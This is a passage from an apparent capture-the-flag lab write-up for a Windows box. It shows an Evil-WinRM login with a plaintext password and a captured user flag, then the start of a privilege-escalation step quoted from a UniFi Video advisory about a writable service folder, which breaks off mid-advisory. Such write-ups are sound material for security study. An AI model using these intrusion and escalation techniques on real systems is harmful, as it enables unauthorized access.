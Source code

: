 ```shell
$ evil-winrm -i 10.10.10.104 -u stacy -p xNnWo6272k7x

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Stacy\Documents> whoami
giddy\stacy
```

Get the flag:

```shell
*Evil-WinRM* PS C:\Users\Stacy\desktop> type user.txt
5a7edac0ca154dcfa80ec0b5010112ab
```

## Privilege Escalation

The user's document folder has a `unifivideo` file:

```shell
*Evil-WinRM* PS C:\Users\Stacy\documents> ls


    Directory: C:\Users\Stacy\documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:36 AM              6 unifivideo
```

Searching with `searchsploit`:

![](assets/Pasted%20image%2020250612203241.png)

```shell
5. VULNERABILITY DETAILS
========================
Ubiquiti UniFi Video for Windows is installed to "C:\ProgramData\unifi-video\"
by default and is also shipped with a service called "Ubiquiti UniFi Video". Its
executable "avService.exe" is placed in the same directory and also runs under
the NT AUTHORITY/SYSTEM account.

However the default permissions on the "C:\ProgramData\unifi-video" folder are
inherited from "C:\ProgramData" and are not explicitly overridden, which allows
all users, even unprivileged ones, to append and write files to the application
directory:

c:\ProgramData>icacls unifi-video
unifi-video NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
CREATOR OWNER:(I)(OI)(CI)(IO)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
BUILTIN\Users:(I)(CI)(WD,AD,WEA,WA)

Upon start and stop of the service, it tries to load and execute the file at
"C:\ProgramData\unifi-video\taskkill.exe". However this file does not exist in
```